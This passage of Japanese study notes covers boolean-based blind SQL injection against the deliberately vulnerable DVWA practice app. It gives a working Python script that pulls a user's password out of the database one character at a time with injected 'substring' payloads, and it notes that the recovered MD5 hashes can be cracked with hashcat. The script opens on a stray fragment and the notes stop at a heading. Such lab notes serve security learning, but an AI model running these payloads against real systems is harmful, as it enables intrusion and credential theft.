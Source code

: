 ```python

print 'end'
```

この結果で32文字と分かり,コードづくりを行う。

次は、32文字という結果からパスワードを特定する

```python
import requests
import sys
from tqdm import tqdm

args = sys.argv
url = args[1]

cookie ={
        "security":"low",
        "PHPSESSID":"fmn58hm2b3147eiui4oeebhrf3"
        }

for index in tqdm(range(1,32)):
    for char_number in range(48,123):
        char = chr(char_number)
        sql = '1\' and substring((select password from users where user_id =1) ,{index},1)= binary \'{char}\';#'.format(index=index,char=char)

        payload = {
                "id":sql ,
                "Submit" : "Submit"
         }

        response = requests.get(url,params=payload,cookies=cookie)
        if 'exists' in response.text:
            
            print(char,end='')
            break
print("")
```

### SQLmapでの例

SQLmapでの実行例は以下を参考

[sqlmapを使ってみる - ももいろテクノロジー](http://inaz2.hatenablog.com/entry/2016/01/27/004356)

### DVWK(やられアプリ）

- このデータベースから取り出した値は、md5でハッシュ化されており、hascatなどで解析できる。

    [ハッシュ関数解読ツール](https://www.notion.so/47c09188b9934dd7b89aae3574794880)

# Time base blind sql Injection
